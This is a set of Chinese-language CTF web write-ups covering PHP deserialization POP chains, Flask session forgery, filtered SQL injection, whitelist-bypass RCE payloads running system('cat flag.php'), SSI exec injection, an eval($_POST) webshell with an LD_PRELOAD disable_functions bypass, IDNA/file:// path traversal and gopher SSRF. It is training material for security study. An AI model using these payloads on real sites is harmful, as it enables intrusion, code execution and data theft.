            &b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2
        ```

## MRCTF2020 easypop(PHP魔术方法+反序列化)

- 源码

    ```php
        <?php
        //flag is in flag.php
        //WTF IS THIS?
        //Learn From https://ctf.ieki.xyz/library/php.html#%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E9%AD%94%E6%9C%AF%E6%96%B9%E6%B3%95
        //And Crack It!
        class Modifier {
            protected  $var;
            public function append($value){
                include($value);
            }
            public function __invoke(){
                $this->append($this->var);
            }
        }
        class Show{
            public $source;
            public $str;
            public function __construct($file='index.php'){
                $this->source = $file;
                echo 'Welcome to '.$this->source."<br>";
            }
            public function __toString(){
                return $this->str->source;
            }
        
            public function __wakeup(){
                if(preg_match("/gopher|http|file|ftp|https|dict|\.\./i", $this->source)) {
                    echo "hacker";
                    $this->source = "index.php";
                }
            }
        }
        class Test{
            public $p;
            public function __construct(){
                $this->p = array();
            }
            public function __get($key){
                $function = $this->p;
                return $function();
            }
        }
        if(isset($_GET['pop'])){
            @unserialize($_GET['pop']);
        }
        else{
            $a=new Show;
            highlight_file(__FILE__);
        }
    ```

- 代码审计

    从非定义部分的代码开始审查。

    ```php
        if(isset($_GET['pop'])){
            @unserialize($_GET['pop']);
        }
        else{
            $a=new Show;
            highlight_file(__FILE__);
        }
    ```

    在传入参数pop被设置时对其进行反序列化，那么再查看此前定义的类中哪些具有和反序列化相关的魔术方法，调用这些魔术方法中设置的代码，就可以执行此处反序列化之外更多的代码，从而实现我们读取flag.php中flag的要求。

    ```php
        class Modifier {
            protected  $var;
            public function append($value){
                include($value);
            }
            public function __invoke(){
                $this->append($this->var);
            }
        }
    ```

    Modifier类中append()方法会将传入参数包含，而此处魔术方法__invoke中设置了将Modifier类中的var属性作为传入值来调用append()函数，所以在这里需要让属性var的值为flag.php，再触发魔术方法__invoke即可。

    魔术方法__invoke被自动调用的条件是类被当成一个函数被调用，故接着来寻找和函数调用有关的代码。

    ```php
        class Show{
            public $source;
            public $str;
            public function __construct($file='index.php'){
                $this->source = $file;
                echo 'Welcome to '.$this->source."<br>";
            }
            public function __toString(){
                return $this->str->source;
            }
        
            public function __wakeup(){
                if(preg_match("/gopher|http|file|ftp|https|dict|\.\./i", $this->source)) {
                    echo "hacker";
                    $this->source = "index.php";
                }
            }
        }
    ```

    在Test类中有两个魔法函数__construct和__get，但魔法函数__construct这里用不上只需要关注魔法函数__get就好。魔法函数__get中设置了属性p会被当做函数调用，刚好符合前面Modifier类中的要求。故需要再触发魔法函数__get即可

    魔法函数__get会在访问类中一个不存在的属性时自动调用，那就需要寻找和调用属性相关的代码。

    ```php
        class Test{
            public $p;
            public function __construct(){
                $this->p = array();
            }
            public function __get($key){
                $function = $this->p;
                return $function();
            }
        }
    ```

    Show类中有三个魔术方法

    在魔术方法__toString中会返回属性str中的属性source，如果刚刚提到的source属性不存在，那么就符合了Test类中的要求

    魔术方法__toString在类被当做一个字符串处理时会被自动调用，在魔术方法__wakeup则将属性source传入正则匹配函数preg_match()，在这个函数中source属性就被当做字符串处理。

    最终这个魔术方法__wakeup又在类被反序列化时自动调用。

    这样从Test类中append()方法到Show类中的魔术方法__wakup就形成了一条调用链，这就是POP的一个使用样例，而题目——Ezpop就说明了这题设计的知识。

    整个过程：

    反序列化->调用Show类中魔术方法__wakeup->preg_match()函数对Show类的属性source处理->调用Show类中魔术方法__toString->返回Show类的属性str中的属性source(此时这里属性source并不存在)->调用Test类中魔术方法__get->返回Test类的属性p的函数调用结果->调用Modifier类中魔术方法__invoke->include()函数包含目标文件(flag.php)

    构造payload的代码(读取flag.php中的flag需要伪协议)：

    ```php
        <?php
        class Modifier {
            protected  $var="flag.php";
        }
        class Show{
            public $source;
            public $str;
        }
        class Test{
            public $p;
        }
        $a = new Show();
        $b= new Show();
        $a->source=$b;
        $b->str=new Test();
        ($b->str)->p=new Modifier();
        echo urlencode(serialize($a));
    ```

## 强网杯2019-高明的黑客(脚本编写)

一进去提示下载文件，发现有3000多个脚本，根目录下几个php脚本没什么用，考点不在这儿。主要考测试脚本的编写能力，用的网上的wp

脚本:[script_fuzz.py](./script_fuzz.py)

## MRCTF2020 PYWebsite(请求头伪造)

- **考点**
  X-Forwarded-For

- 刚进去，提示购买flag，查看网页源码，发现前端有验证,并提示了一个flag.php页面。进去，提示和ip有关，而且只有本人和购买者可以看到，所以到这里就是提示X-Forwarded-For伪造ip

  ```js
    function enc(code){
        hash = hex_md5(code);
        return hash;
        }
        function validate(){
        var code = document.getElementById("vcode").value;
        if (code != ""){
            if(hex_md5(code) == "0cd4da0223c0b280829dc3ea458d655c"){
            alert("您通过了验证！");
            window.location = "./flag.php"
            }else{
            alert("你的授权码不正确！");
            }
        }else{
            alert("请输入授权码");
        }
    }
  ```

## 攻防世界-catcat-new(flask session 伪造)

- 任意文件读取漏洞，flask框架，读取源码`app.py`
   ```python
        import os
        import uuid
        from flask import Flask, request, session, render_template
        from cat import cat

        flag = ""
        app = Flask(__name__, static_url_path='/', static_folder='static' )
        #SECRET_KEY为uuid替换-为空后加上*abcdefgh。这里刻意的*abcdefgh是在提示我们secret key的格式
        app.config['SECRET_KEY'] = str(uuid.uuid4()).replace("-", "") + "*abcdefgh"
        if os.path.isfile("/flag"):
            flag = cat("/flag")
            os.remove("/flag")
                        
        @app.route('/', methods=['GET'])
        def index():
            detailtxt = os.listdir('./details/')
            cats_list = []
            for i in detailtxt:
                cats_list.append(i[:i.index('.')])
                                                                                                                
                return render_template("index.html", cats_list=cats_list, cat=cat)

        @app.route('/info', methods=["GET", 'POST'])
        def info():
            filename = "./details/" + request.args.get('file', "")
            start = request.args.get('start', "0")
            end = request.args.get('end', "0")
            name = request.args.get('file', "")[:request.args.get('file', "").index('.')]
                                                                                        
            return render_template("detail.html", catname=name, info=cat(filename, start, end))
                                                                                        
        @app.route('/admin', methods=["GET"])
        def admin_can_list_root():
            #session为admin就能得到flag，此处需要session伪造
            if session.get('admin') == 1:
                return flag
            else:
                session['admin'] = 0
            return "NoNoNo"

        if __name__ == '__main__':
            app.run(host='0.0.0.0', debug=False, port=5637)
   ```

   破解脚本在`./script/flask_session.py`

   运行完之后脚本会输出一个secret key

   利用工具flask_session_cookie_manager伪造session,命令行运行如下命令，命令会输出一个加密后的session值，利用bp抓包伪造session获取flag。

    ```cmd
        python flask_session_cookie_manager3.py encode -s "176a7e21b5534065943ddf7a0af35eeb*abcdefgh" -t "{'admin':1}"
    ```

## SWPU2019 web(无列名注入+mysql.innodb_tabel_stats爆表名)

- 考点

  1. mysql.innodb_tabel_stats爆表名
  2. 无列名注入

- mysql.innodb_table_stats爆表名

  [其他爆表名方法](https://osandamalith.com/2020/01/27/alternatives-to-extract-tables-and-columns-from-mysql-and-mariadb/)

  ```mysql
    select group_concat(table_name) from mysql.innodb_table_stats
  ```

- 无列名注入

  e.g.

  ```mysql
    select 1,2,3 union select * from users;
    // 使用这个语句，前面的select 1，2，3 会变成列名。如果此时我们再使用下面的语句
    slecet 2 form (select 1,2,3 union select * from users)a; 
    // 就可以得到我们的第二列的所有数据
  ```

  - 下面再来分析以下此题的payload

    对了，值得注意的是这题过滤了注释符，所以我们用'来闭合语句。然后也过滤了空格，我们用/**/代替。

    ```mysql
        -1'/**/union/**/select/**/1,(select/**/group_concat(a)/**/from(select/**/1,2,3/**/as/**/a/**/union/**/select*from/**/users)x),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22/**/'
    ```

     首先我们发现总共有22个字段且第二个字段可以回显给我们，所以第二个字段突破。
     第二个字段的内容为

    `(select group_concat(a) from (select 1,2,3 as a union select*from users)x)`

    我们可以知道这里用了2种重命名方式，第一种是as 后面接别名，第二种是（）后面接别名。而group_concat只是为了把想要数据全部显示出来（一行）。

     `(select 1,2,3 as a union select*from users)`这里的第一个select就是给它们的列重命名，union后面就是得到一个重命名后的数据表，然后取别名为x。
     最后相当于`select group_concat(1,2,3) form x`从而把整个表里的数据回显。

    **注**：sql中过滤了 * 号。在无列名注入的时候 一定要和表的列数相同，不然会报错 。
    改： select 1,2,3 as a 只会把第3列重名为 a 。这次测试中必须要给重名一个列重命名否者无法正确读取数据

## CISCN2019初赛 Love Math(字符串,进制转换)

[php代码审计前奏之ctfshow之命令执行](https://www.freebuf.com/articles/web/261049.html)

  - 源码

    ```php
        <?php

        error_reporting(0);
        //听说你很喜欢数学，不知道你是否爱它胜过爱flag
        if(!isset($_GET['c'])){
            show_source(__FILE__);
        }else{
            //例子 c=20-1
            $content = $_GET['c'];
            if (strlen($content) >= 80) {
                die("太长了不会算");
            }
            $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
            foreach ($blacklist as $blackitem) {
                if (preg_match('/' . $blackitem . '/m', $content)) {
                    die("请不要输入奇奇怪怪的字符");
                }
            }
            //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
            $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
            preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);  
            foreach ($used_funcs[0] as $func) {
                if (!in_array($func, $whitelist)) {
                    die("请不要输入奇奇怪怪的函数");
                }
            }
            //帮你算出答案
            eval('echo '.$content.';');
        }
    ```

  - 函数解释

    ```php
        preg_match_all ( string $pattern , string $subject [, array &$matches [, int $flags = PREG_PATTERN_ORDER [, int $offset = 0 ]]] ) : int
    ```

    搜索`subject`中所有匹配`pattern`给定正则表达式 的匹配结果并且将它们以`flag`指定顺序输出到`matches`中。结果排序为`$matches[0]`保存完整模式的所有匹配, `$matches[1]` 保存第一个子组的所有匹配，以此类推。

    这段代码的意思是：首先接收一个`c`, 长度还不能大于 80 。还不能有黑名单中的 空格、`\t`、`\r`、`\n`、引号、方括号。然后设置白名单，必须符合。也就是必须输入白名单中的函数。最后用`eval()`来执行并返回我们的参数。

  - **做题思路：**

    - 首先 php 允许把函数名通过字符串方式传递给一个变量，然后通过变量动态调用函数。如`$a="abc";$A()`就会执行 `abc()` 函数。

    - php 中函数名默认为字符串，可以进行异或。

### 方法一

    想办法构造`$_GET[1]`再传参getflag，但是其实发现构造这个很难。。。因为`$`、`_`、`[`、`]`都不能用，同时GET必须是大写，很难直接构造。

    先看一下用到的一些数学函数：

    ```php
        base_convert ( string $number , int $frombase , int $tobase ) : string
    ```

    返回一字符串，包含 `number` 以 `tobase` 进制的表示。`number` 本身的进制由 `frombase` 指定。`frombase` 和 `tobase` 都只能在 2 和 36 之间（包括 2 和 36）。高于十进制的数字用字母 a-z 表示，例如 a 表示 10，b 表示 11 以及 z 表示 35。意思就是将输入数字的进制进行转换。

    可以使用这个函数将其他进制数转为36进制，而是36进制是包含所有数字和小写字母的。但终究无法构造`GET`大写字母。但又可以构造其他的小写字母函数，让构造的函数转换。

    ```php
        hexdec ( string $hex_string ) : number    //十六进制转换为十进制
        dechex ( int $number ) : string        //十进制转换为十六进制
        bin2hex ( string $str ) : string    //函数把包含数据的二进制字符串转换为十六进制值
        hex2bin ( string $data ) : string    //转换十六进制字符串为二进制字符串
    ```

    那么我们就可以想象一下，把`_GET`先利用`bin2hex()`转换为 十六进制，在利用`hexdec()`转换为十进制，那么反过来就可以把一段数字转换为字符。

    但是`binhex()`， `hexdec()`等不是白名单的函数，要从哪里来？

    这时候就要看`base_convert()`的作用了，因为上面的函数都是小写的，所以可以利用此函数将一个十进制数的数字转为三十六进制的小写字符。这里三十六进制是10个数字+26个小写字母，因此能够完整表示出一个函数名的所有字符。

    那么怎么才能直到这个数呢？我们可以先逆向将三十六进制字符转换为十进制数，得到该数字，最终逆向构造即可。

    ```php
        base_convert('hex2bin',36,10);        //37907361743
        base_convert(37907361743,10,36);    //hex2bin
    ```

    再将`_GET`反向构造出来：

    ```php
        bin2hex('_GET');    //得到 5f474554 将字符转换为十六进制
        hexdec('5f474554');    //得到 1598506324 将十六进制转为十进制
        dechex(1598506324);        //得到 5f474554 将十进制转换为十六进制
        hex2bin('5f474554');    //得到 _GET
    ```

    白名单中有`dechex()`、`hexdec()`函数，但是没有`hex2bin()`、`bin2hex()`函数，但是我们可以使用`base_convert()`函数构造任意小写函数。

    可以用`{}`代替`[]`构造

    ```php
        ?c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi{abs})($$pi{acos})&abs=system&acos=ls
        // $pi=_GET;($_GET[abs])($_GET[acos])    ==> $pi=_GET;(system)(ls)
        //得到 _GETflag.php index.php
        
        ?c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi{abs})($$pi{acos})&abs=system&acos=cat flag.php
        //得到flag
    ```

### 方法二

  可以构造`getallheaders()`传参，此是小写的，可以直接用base_convert转换。

  ```php
    getallheaders ( void ) : array
  ```

  获取全部 `HTTP` 请求头信息。

  首先构造`system`和`getallheaders`：

  ```php
    base_convert('getallheaders',30,10);
    //得到8768397090111664438，这里不使用36进制是因为精度会丢失，尝试到30的时候成功
    base_convert('system',36,10);    //得到1751504350
  ```

  payload:

  ```php
    ?c=$pi=base_convert;$pi(1751504350,10,36)($pi(8768397090111664438,10,30)(){1})
    HEADER:    1:cat flag.php
  ```

### 方法三

  1. 直接`cat f*`

    ```php
        echo dechex(16)^asinh^pi;        //输出*
        base_convert('cat',36,10);        //得到15941
        base_convert('system',36,10);        //得到1751504350
    ```

payload:

    ```php
        ?c=base_convert(1751504350,10,36)(base_convert(15941,10,36).(dechex(16)^asinh^pi))
        //system('cat'.dechex(16)^asinh^pi) => system('cat *')
    ```

  2. 或者：

  ```php
    hexdec(bin2hex('cat f*'));        //得到109270211257898
    base_convert('exec',36,10);        //得到696468
  ```

  payload:

  ```php
    ?c=($pi=base_convert)(696468,10,36)($pi(76478043844,9,34)(dechex(109270211257898)))
    
    //exec('hex2bin(dechex(109270211257898))') => exec('cat f*')
  ```

  这里发现一个问题，这个payload超过了80的长度限制，所以只能把三十四进制转换为二十三进制。

  ```php
    ?c=($pi=base_convert)(22950,23,34)($pi(76478043844,9,34)(dechex(109270211257898)))
  ```

### 方法四

前面都是利用白名单的数学函数将数字转成字符串，其实也可以异或构造这是fuzz脚本

```php
    <?php
    $payload=['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh',  'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    for($k=1;$k<=sizeof($payload);$k++){
        for($i=0;$i<9; $i++){
            for($j=0;$j<=9;$j++){
                $exp=$payload[$k] ^$i.$j;
                echo($payload[$k]."^$i$j"."==>$exp");
                echo"<br />";
            }
        }
    }
```

得到`is_nan^64==>_G`和`tan^15==>ET`

payload:

```php
    ?c=$pi=(is_nan^(6).(4)).(tan^(1).(5));$pi=$$pi;$pi{0}($pi{1})&0=system&1=cat flag.php
    //$pi=_GET;$pi=$_GET;$_GET[0]($_GET[1])&0=system&1=cat flag.php     ==> system(cat flag.php)
```

## De1CTF SSRF Me(代码审计)

源码

```python
    #! /usr/bin/env python 
    #encoding=utf-8 
    from imp import reload
    from flask import Flask 
    from flask import request 
    import socket 
    import hashlib 
    import urllib
    import sys 
    import os 
    import json 
    reload(sys)
    # sys.setdefaultencoding('latin1') 
    app = Flask(__name__) 
    secert_key = os.urandom(16) 
    class Task: 
        def __init__(self, action, param, sign, ip): 
            self.action = action 
            self.param = param 
            self.sign = sign 
            self.sandbox = hashlib.md5(ip) 
            if(not os.path.exists(self.sandbox)): #SandBox For Remote_Addr 
                os.mkdir(self.sandbox) 
        
        def Exec(self): 
            result = {} 
            result['code'] = 500 
            if (self.checkSign()): 
                if "scan" in self.action:
                    tmpfile = open("./%s/result.txt" % self.sandbox, 'w')
                    resp = scan(self.param) 
                    if (resp == "Connection Timeout"): 
                        result['data'] = resp 
                    else: 
                        print(resp)
                        tmpfile.write(resp) 
                        tmpfile.close() 
                        result['code'] = 200 
                if "read" in self.action: 
                            f = open("./%s/result.txt" % self.sandbox, 'r') 
                            result['code'] = 200 
                            result['data'] = f.read() 
                if result['code'] == 500: 
                    result['data'] = "Action Error" 
                else: 
                    result['code'] = 500 
                    result['msg'] = "Sign Error" 
                return result 
        def checkSign(self): 
            if (getSign(self.action, self.param) == self.sign): 
                return True 
            else: 
                return False 

    #generate Sign For Action Scan. 
    @app.route("/geneSign", methods=['GET', 'POST']) 
    def geneSign(): 
        # urllib.unquote 是url解码   ----urlib.urlencode 是url编码  #request.args.get获取单个值
        param = urllib.unquote(request.args.get("param", ""))
        action = "scan" 
        return getSign(action, param) 

    @app.route('/De1ta',methods=['GET','POST']) 
    def challenge(): 
        action = urllib.unquote(request.cookies.get("action")) 
        param = urllib.unquote(request.args.get("param", "")) 
        sign = urllib.unquote(request.cookies.get("sign")) 
        ip = request.remote_addr 
        if(waf(param)): 
            return "No Hacker!!!!" 
        task = Task(action, param, sign, ip) 
        return json.dumps(task.Exec()) 

    @app.route('/') 
    def index(): 
        return open("code.txt","r").read() 

    def scan(param): 
        socket.setdefaulttimeout(1) 
        try: 
            return urllib.urlopen(param).read()[:50] 
        except: 
            return "Connection Timeout" 

    def getSign(action, param): 
        return hashlib.md5(secert_key + param + action).hexdigest() 

    def md5(content): 
        return hashlib.md5(content).hexdigest() 

    def waf(param): 
            check=param.strip().lower() 
            if check.startswith("gopher") or check.startswith("file"): 
                return True 
            else:  
                return False 

    if __name__ == '__main__': 
        app.debug = False 
        app.run(host='0.0.0.0',port=80) 
```

- 题目一开始就提示flag在/flag.txt中,然后题目又是SSRF

1. 首先看`geneSign`页面,url解码,获取param参数(这里get,post请求都可以),接着`action=scan`,然后返回`getSign`函数,`gerSign`函数->生成加密sign值,用于后续比较

2. 再看De1ta页面,可以发现`action`和`sign`存放在cookie中，而`param`则是get/post参数。

   `param`会经过`waf`,`waf`会过滤`gopher`和`file`,经过`waf`之后会调用`Exec`方法。
   
   `Exec`首先会调用`checkSign`函数(需要`action`和`param`通过`getSign`方法后的值与`sign`相同。)
   
   如果`scan`在`action`里面，会将`param`传入`scan`函数调用,`scan`函数会抓取`param`这个页面并读取,然后将结果保存到一个文件中。
   
   如果`read`也在`action`中，则会读取结果，并放到`result`字典中。然后返回这个字典。
   
   而`De1ta`页面最终会将结果打印出来。

3. 到现在就清楚了，首先需要`param=flag.txt`,同时又要`action`中包含`sign`和`read`, 而在`geneSign`函数中`action=scan`,我们需要构造一个包含`read`的payload,再看`getSign`函数,`param`和`action`的顺序正好是`hashlib.md5(secert_key + param + action).hexdigest()`,所以可以`param=flag.txtread`,这样就等于`param=flag.txt`,`action=readscan`。
   
   获取到`sign`后，bp抓包构造cookie以及param就能拿到flag，

   *注意*：cookie中`action=readscan`

## [BJDCTF2020] EasySearch (SSII-Server-Side Includes Injection（服务端包含注入）)

1. 进入靶场之后用bp的Intruder尝试过爆破，但是没有什么效果。然后考虑**目录扫描**，会得到一个`index.php.swp`,这是一个备份文件，这种备份文件产的原因主要是线上环境中使用 vim 编辑器，在使用过程中会留下 vim 编辑器缓存，当vim异常退出时，缓存会一直留在服务器上，引起网站源码泄露。

   - 非正常关闭vim编辑器时会生成一个.swp文件

       在使用vim时会创建临时缓存文件，关闭vim时缓存文件则会被删除，当vim异常退出后，因为未处理缓存文件，导致可以通过缓存文件恢复原始文件内容。

       以 `index.php` 为例：第一次产生的交换文件名为 `.index.php.swp`

       再次意外退出后，将会产生名为 `.index.php.swo` 的交换文件

       第三次产生的交换文件则为 `.index.php.swn`

   - 但是如果用dirsearch常规扫描是扫不出来的，需要用包含这几个名称的自定义字典扫描。

   访问`index.php.swp`得到源码

   ```php
       <?php
           ob_start();
           function get_hash(){
               $chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()+-';
               $random = $chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)];//Random 5 times
               $content = uniqid().$random;
               return sha1($content); 
           }
           header("Content-Type: text/html;charset=utf-8");
           ***
           if(isset($_POST['username']) and $_POST['username'] != '' )
           {
               $admin = '6d0bc1';
               if ($admin == substr(md5($_POST['password']),0,6)) {
                   echo "<script>alert('[+] Welcome to manage system')</script>";
                   $file_shtml = "public/".get_hash().".shtml";
                   $shtml = fopen($file_shtml, "w") or die("Unable to open file!");
                   $text = '
                   ***
                   ***
                   <h1>Hello,'.$_POST['username'].'</h1>
                   ***
                   ***';
                   fwrite($shtml,$text);
                   fclose($shtml);
                   ***
                   echo "[!] Header  error ...";
               } else {
                   echo "<script>alert('[!] Failed')</script>";
               }        
           }else{
               ***
           }
           ***
       ?>
   ```

2. 登录验证那一块要求是密码经过`md5`加密后要和`6d0bc1`相等,用下面的脚本可以找到几个。

    ```python
        import hashlib

        resPath = f'd:\\desktop\ctf\\buu\\web\\script-data\\md5-value.txt'

        with open(resPath,'w') as f:

            for i in range(10000000):
                md5 = hashlib.md5(str(i).encode("utf-8")).hexdigest()
                f.write(f'{str(i):10} | {md5}')
                f.write("\n")
    ```

3. 接下来就是 SSII

    - SHTML文件扩展信息

        服务器端内嵌（Server Side Includes，亦简称为SSI）是一种大多数仅应用于互联网上的简单解释性服务器端脚本语言。Apache、LiteSpeed、Nginx、Lighttpd与IIS五大主流网页服务器软件均支持此种语言。

        SHTML是一种用于SSI技术的网页文件。SHTML和.ASP网页有一些相似，SHTML文件里使用了SSI的一些指令，就像ASP中的指令，当客户端访问这些SHTML文件时，服务器端会把这些SHTML文件进行读取和解释，把SHTML文件中包含的SSI指令解释出来，返回静态网页。

        例如，你可以在SHTML文件中用SSI指令引用其他的.HTML文件（#include命令），服务器传送给客户端的文件，是已经解释的SHTML，不会有SSI指令。它实现了HTML所没有的功能，就是实现了动态的SHTML，可以说是HTML的一种进化。

        使用SSI指令可以更方便管理和维护网站。网站维护常常碰到的一个问题是，网站的结构已经固定，却为了更新一点内容而不得不重做一大批网页。SSI提供了一种简单、有效的方法来解决这一问题，它将一个网站的基本结构放在几个简单的HTML文件中（模板），以后我们要做的只是将文本传到服务器，让程序按照模板自动生成网页，从而使管理大型网站变得容易。

        因为包含SSI指令的文件要求特殊处理，所以必须为所有SSI文件赋予SSI文件扩展名，默认扩展名是.stm、.shtm和.shtml。

    - SSI用途

        - 显示服务器端环境变量<#echo>
        - 将文本内容直接插入到文档中<#include>
        - 显示WEB文档相关信息<#flastmod #fsize>（如文件制作日期/大小等）
        - *直接执行服务器上的各种程序<#exec>*（如CGI或其他可执行程序）
        - 设置SSI信息显示格式<#config>（如文件制作日期/大小显示方式）高级SSI<XSSI>可设置变量使用if条件语句。

    `.shtml`可以执行命令，格式：

    ```html
        <!--#exec cmd="ls" -->
    ```
    
    所以此处可以使`username`为想要执行的命令。用bp抓包，会发现响应头中有访问链接，访问之后发现命令成功执行。以这种方式就可以得到flag。

## [极客大挑战] RCE ME(无数字字母绕过)

  无数字字母绕过 + 环境变量 `LD_preload + mail`劫持so执行系统命令

  [bypass disfunction](https://ab-alex.github.io/2019/11/20/bypass-disfunction/)

1. 无数字字母绕过

    采用异或 或者 取反绕过，这道题采用取反，因为有长度限制,取反代码

    ```php
        <?php

        $cmd = 'assert';
        $payload = urlencode(~ $cmd);
        echo $payload;
        echo "\n";
        $a = 'eval($_POST["cmd"])';
        echo urlencode(~$a);

        ?>

    ```
取反之后,在url中写法`?code=(~%8F%97%8F%96%91%99%90)();`,即取反的内容要用"()"括起来

url解码之后就是 `?code=phpinfo();`

1. 命令执行绕过

  1. 利用蚁剑插件 `disable_functions` 绕过函数限制，命令行执行/readflag 即可得到flag

  2. 环境变量 `LD_preload + mail`劫持so执行系统命令，用蚁剑连接后，上传`./tools/bypass_disapblefunc_via_PRELOAD/bypass_disablefunc_x64.so`和`./tools/bypass_disapblefunc_via_PRELOAD/bypass_disablefunc_x64.php`

  重新构造payload:`?code=${%fe%fe%fe%fe^%a1%b9%bb%aa}[_](${%fe%fe%fe%fe^%a1%b9%bb%aa}[__]);&_=assert&__=include(%27/var/tmp/bypass_disablefunc.php%27)&cmd=/readflag&outpath=/tmp/tmpfile&sopath=/var/tmp/bypass_disablefunc_x64.so`

## SUCTF2019 Pythonnginx(IDNA编码绕过)

1. 利用点

    - CVE-2019-9636：urlsplit不处理NFKC标准化

    - url中的unicode漏洞引发的域名安全问题

    - nginx 配置文件位置

        ```sh
        配置文件存放目录：/etc/nginx
        主配置文件：/etc/nginx/conf/nginx.conf
        管理脚本：/usr/lib64/systemd/system/nginx.service
        模块：/usr/lisb64/nginx/modules
        应用程序：/usr/sbin/nginx
        程序默认存放位置：/usr/share/nginx/html
        日志默认存放位置：/var/log/nginx
        配置文件目录为：/usr/local/nginx/conf/nginx.conf
        ```

2. 解题过程

    前两个 if 判断 host是否含有 suctf.cc 如果有就报错，经过 utf-8 解码 idna 编码 之后传入到 urlunsplit函数 组合成url ，再用 if 和suctf.cc进行一次比较 如果相同 就 进行读取。

    **方法一**

    - idna与utf-8编码漏洞

        idn 国际化域名应用，国际化域名(Internationalized Domain Name,IDN)又名特殊字符域名，是指部分或完全使用特殊文字或字母组成的互联网域名，包括中文、发育、阿拉伯语、希伯来语或拉丁字母等非英文字母，这些文字经过多字节万国码编码而成。在域名系统中，国际化域名使用punycode转写并以ASCII字符串存储。

        什么是idna?
        A library to support the Internationalised Domain Names in Applications (IDNA) protocol as specified in RFC 5891. This version of the protocol is often referred to as “IDNA2008” and can produce different results from the earlier standard from 2003.

        ℆这个字符,如果使用python3进行idna编码的话

        `print(‘℆’.encode(‘idna’))`

        结果:`b’c/u’`
        如果再使用utf-8进行解码的话

        `print(b’c/u’.decode(‘utf-8’))`

        结果:`c/u`

        通过这种方法可以绕过本题

    - *爆破脚本*

        ```python
            from urllib.parse import urlparse,urlunsplit,urlsplit
            from urllib import parse

            def get_unicode():
                for x in range(65536):
                    uni=chr(x)
                    url="http://suctf.c{}".format(uni)
                    try:
                        if getUrl(url):
                            print("str: "+uni+' unicode: \\u'+str(hex(x))[2:])
                    except:
                        pass

            # 使用题目源码逻辑判断
            def getUrl(url):
                url = url
                host = parse.urlparse(url).hostname
                if host == 'suctf.cc':
                    return False
                parts = list(urlsplit(url))
                host = parts[1]
                if host == 'suctf.cc':
                    return False
                newhost = []
                for h in host.split('.'):
                    newhost.append(h.encode('idna').decode('utf-8'))
                parts[1] = '.'.join(newhost)
                finalUrl = urlunsplit(parts).split(' ')[0]
                host = parse.urlparse(finalUrl).hostname
                if host == 'suctf.cc':
                    return True
                else:
                    return False

            if __name__=="__main__":
                get_unicode()
        ```

        ```python
            # 输出结果
            str: ℂ unicode: \u2102
            str: ℭ unicode: \u212d
            str: Ⅽ unicode: \u216d
            str: ⅽ unicode: \u217d
            str: Ⓒ unicode: \u24b8
            str: ⓒ unicode: \u24d2
            str: Ｃ unicode: \uff23
            str: ｃ unicode: \uff43
        ```
        
        从结果中随便选一个就可以绕过。

        payload：`file://suctf.cℂ/../../../../..//usr/local/nginx/conf/nginx.conf`

        **方法二**

        利用urlsplit不处理NFKC标准化

        payload: `file:////suctf.cc/usr/local/nginx/conf/nginx.conf`

        *注意*

        如果上面的payload不能用，可以在`suctf.cc`后加`../../../../../`尝试，多了没问题，少了不行。

## 攻防世界 very_easy_sql(gopher+ssrf+sqli)

1. gopher 协议

   1. 什么是gopher协议

        Gopher协议是一种早期的互联网协议，用于在网络上获取文本信息。它于1991年提出，旨在提供一种简单、高效的方式来浏览和访问文件。

        Gopher协议使用类似于文件系统的层次结构来组织数据，其中每个项目都有一个唯一的标识符。通过Gopher客户端软件，用户可以浏览目录并选择下载或查看文件。Gopher服务器可以提供文本文件、图像文件、二进制文件等。

        与HTTP相比，Gopher协议具有更简单的设计和较少的功能。它基于传输控制协议（TCP）进行通信，默认端口号为70。然而，随着万维网的崛起和HTTP的普及，Gopher协议逐渐被取代。

    2. 利用

        利用gopher协议可以攻击内网的 Redis、Mysql、FastCGI、Ftp 等，也可以发送 GET、POST 请求，这可以拓宽 SSRF 的攻击面

    3. 语法

        gopher协议的格式通常为：

        ```html
        gopher://hostname:port/请求方法(get、post等)/path
        ```

        其中，hostname 表示 Gopher 服务器的主机名或 IP 地址，port 表示 Gopher 服务器监听的端口号（默认为 70），而 path 则是资源的路径。

    4. 举个例子

        要请求 Gopher 服务器上的 /example/file.txt 文本文件，可以使用以下 URL 格式：

        ```html
        gopher://example.com:端口/example/file.txt
        ```

        在本地主机的80端口上使用Gopher协议的GET方法访问一个资源：

        ```html
        gopher://127.0.0.1:80/_GET /index.php HTTP/1.1
        ```

